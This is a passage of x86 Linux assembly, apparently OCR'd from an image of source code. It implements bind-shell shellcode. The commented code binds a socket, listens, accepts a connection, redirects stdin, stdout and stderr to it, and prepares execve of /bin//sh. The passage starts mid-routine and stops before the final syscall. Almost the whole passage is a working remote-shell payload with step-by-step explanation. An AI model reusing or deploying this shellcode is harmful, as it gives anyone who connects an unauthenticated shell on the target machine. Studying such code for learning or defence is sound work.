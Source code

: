 ```nasm
; If we wish to use a port number such as 43776, which in hex is AB00, we need to do something similar to the above.
    ;add dl, 0xAB        ; set up 43776 in network byte order in a register...
    ;push word dx        ; and then PUSH it
    ;xor edx, edx


    push word bx        ; push protocol family (0x02 for AF_INET)

; build bind() arguments and fire syscall
    mov ecx, esp
    push 0x10 ; push sockaddr struct length
    push ecx  ; push pointer to sockaddr
    push edi  ; push file descriptor
    mov ecx, esp ; move pointer to syscall arguments into ecx
    int 0x80

; listen(fd, int backlog)
; Begin listening for connections on the port we've bound.
    mov [ecx + 0x04], edx ; We re-use the bind argv array, eax is 0x00 from successful bind() return value. The backlog should be zero
    add bl, 0x02          ; set syscall listen() (4)
    mov al, 0x66
    int 0x80

; accept(int sockfd, null, 0x10)
; Accept the first incoming connection to our bound port.
; Despite what the man pages for accept(2) would have you beleive, this call is not picky about the second two arguments.
; We can just re-use the same arguments from the last call, still in ECX.
    inc ebx
    mov al, 0x66
    int 0x80
; This returns a new file descriptor for us representing the connection.

; dup2(connection_fd, fd_to_redirect)
; duplicate stderr, stdin, and stdout to connection file handle
; This lets us execve whatever we want and have its input, output, and errors flowing over the connection.

    xchg eax, ebx               ; move connection fd into ebx (old fd)
    mov ecx, edx                ; edx should still be zeroed, move it into ecx
    mov cl, 0x02                ; start at 0x02 (stderr)

dup2_loop:
    xor eax, eax
    mov al, 0x3f                ; move the syscall into eax
    int 0x80                    ; fire syscall
    dec ecx                     ; decrementing ecx will make it stdout after the first loop and stdin the last
    jns dup2_loop               ; if ecx turns negative, don't jmp

; execve /bin/sh

    push edx                    ; push zeroes to terminate /bin//sh string
    push 0x68732f2f             ; push /bin//sh to stack
    push 0x6e69622f
    mov ebx, esp                ; esp is a pointer to the /bin//sh string, store this in ebx
    push edx                    ; push a null for envp and to end the argv array
    mov edx, esp                ; store pointer to envp array in edx
    push ebx                    ; argv is an array of pointers to strings, /bin//sh must be the first argument, so we push its address to the stack.
    mov ecx, esp                ; store pointer to argv array in ecx
```